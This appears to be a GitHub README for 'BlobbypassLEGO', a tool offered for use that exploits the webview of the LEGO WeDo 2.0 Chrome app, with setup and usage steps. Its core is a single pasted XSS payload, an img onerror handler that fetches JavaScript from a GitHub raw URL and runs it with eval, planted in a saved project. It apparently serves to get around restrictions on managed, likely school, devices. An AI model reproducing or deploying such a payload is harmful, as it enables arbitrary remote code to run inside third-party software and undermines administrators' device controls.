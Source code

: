 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads, then turn off your WiFi.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* Close LEGO WeDo 2.0 and re-enable your WiFi

### How to use (after Setup):
* Open LEGO WeDo 2.0 (with WiFi turned on)
* Click the project you made when you were setting this up
* Press the pencil icon
* Done!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
